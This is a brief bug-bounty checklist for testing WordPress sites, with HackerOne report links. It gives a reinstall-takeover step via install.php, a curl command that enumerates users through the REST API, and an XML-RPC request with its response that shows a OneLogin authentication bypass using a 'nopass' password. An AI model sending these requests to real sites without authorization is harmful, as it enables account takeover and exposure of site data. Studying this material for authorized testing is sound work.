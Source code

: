 # Bugs to check on wordpress
- Data Exposure
- xmlrpc.php Enabled
- Using Wpscan

## Data exposure reports
https://hackerone.com/reports/356047
https://hackerone.com/reports/540301 
https://hackerone.com/reports/384782

### XMLRPC Enabled 
https://hackerone.com/reports/356047 
https://hackerone.com/reports/540301 
https://hackerone.com/reports/384782

# Not Securing wp-config.php WordPress Configuration File
# Takeover Wordpress If Not Installed
```bash
https://example.com/wp-admin/install.php
```
- If you can install wordpress again RCE boom

## Findings
- It Discloses Author And Admin Information
```bash
example.com/wp-json/wp/v2/users/
$ curl https://example.com/\?_method\=GET -d rest_route=/wp/v2/users
```
## OneLogin authentication bypass on WordPress sites via XMLRPC
- Request
```bash
POST /xmlrpc.php
Host: ex.com

<?xml version="1.0"?>
<methodCall>
<methodName>wp.getOptions</methodName>
<params>
	<param><value>zzz</value></param>
        <param><value>cbarry@uber.com</value></param>
        <param><value>@@@nopass@@@</value></param>
</params>
</methodCall>
```
- response
```bash
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <struct>
  <member><name>software_name</name><value><struct>
  <member><name>desc</name><value><string>Software Name</string></value></member>
  <member><name>readonly</name><value><boolean>1</boolean></value></member>
  <member><name>value</name><value><string>WordPress</string></value></member>
</struct></value></member>
  <member><name>software_version</name><value><struct>
  <member><name>desc</name><value><string>Software Version</string></value></member>
  <member><name>readonly</name><value><boolean>1</boolean></value></member>
  <member><name>value</name><value><string>4.4.3</string></value></member>
</struct></value></member>
  <member><name>blog_url</name><value><struct>
  <member><name>desc</name><value><string>WordPress Address (URL)</string></value></member>
  <member><name>readonly</name><value><boolean>1</boolean></value></member>
  <member><name>value</name><value><string>https://newsroom.uber.com</string></value></member>
...etc.
```
##### Exploit scenarios [Check Report](https://hackerone.com/reports/138869)

